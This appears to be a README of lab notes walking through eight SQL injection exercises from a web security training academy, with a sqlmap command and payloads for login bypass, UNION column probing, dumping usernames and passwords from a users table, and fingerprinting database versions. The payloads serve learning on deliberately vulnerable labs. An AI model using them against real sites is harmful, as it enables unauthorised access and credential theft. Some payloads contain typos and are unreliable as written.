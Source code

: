 ## Use sql map
1. Save request to file 
2. Command sqlmap
```sql
sqlmap -r file.txt -parameter --risk 3 --level 5
```
![sqlmap](./img/sqlmap.png)




## 1.Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
### Inject point
```sql
		Input ' or 1 = 1-- to domain/filter?category=  >> done
```	
![sql1](./img/sqli.png)

## 2.Lab: SQL injection vulnerability allowing login bypass
```sql
Bypass login >> username ' or 1 = 1 -- (# if mysql) >> administrator' or 1 = 1 -- >> done
```
## 3.Lab: SQL injection UNION attack, determining the number of columns returned by the query
```sql
Union attack >> ' UNION SELECT NULL-- >> determine colum (Null = 1,Null,Null =2)Detect number of colum
' UNION SELECT NULL-- >> code 500 >> wrong
' UNION SELECT NULL,NULL-- >> code 500 >> wrong
' UNION SELECT NULL,NULL,NULL-- >> code 200 >> 3 colum >> done
```		
## 4.Lab: SQL injection UNION attack, finding a column containing text	
		detect data type
```sql
' UNION SELECT '1',NULL,NULL-- >>code 200 >> colum 1
' UNION SELECT '1,'a',NULL-- >>code 500 >> wrong
' UNION SELECT '1','1',NULL-- >> code 200>> colum 1,2
...
' UNION SELECT '1','1','1'NULL-- >> code 200>> colum 1,2,3 >> done
```
## 5.Lab: SQL injection UNION attack, retrieving data from other tables
```sql
The database contains a different table called users, with columns called username and password 
>> select username,password from users
Detect number of colum
' UNION SELECT NULL-- >> code 500 >> wrong
' UNION SELECT NULL,NULL-- >> code 200 >> 2 colum
>> 'union select username,password from users--
```		
## 6.Lab: SQL injection UNION attack, retrieving multiple values in a single column
```sql
The database contains a different table called users, with columns called username and password 
>> select username,password from users
Detect number of colum
' UNION SELECT NULL-- >> code 500 >> wrong
' UNION SELECT NULL,NULL-- >> code 200 >> 2 colum
try  >> 'union select username,password from users-- >> wrong
If multiple values within a single column
>> try ' UNION SELECT username || '~' || password FROM users-- >> done
```		
## 7.Lab: SQL injection attack, querying the database type and version on Oracle
```sql
Oracle 	SELECT banner FROM v$ version
	SELECT version FROM v$instance
		Microsoft 	SELECT @@version
		PostgreSQL 	SELECT version()
		MySQL 	SELECT @@version
	
>>SELECT banner FROM v$version 
		detect number of colum >> oracle>> add from dual >> detect data type
>> ' UNION SELECT Banner,NULL from v$version-- >> done
```		
## 8.Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft
```sql
>>detect number of colum >>' UNION SELECT NULL,NULL#(use # instead --)>> 2 colum
>>' UNION SELECT @@version,NULL# >> done
```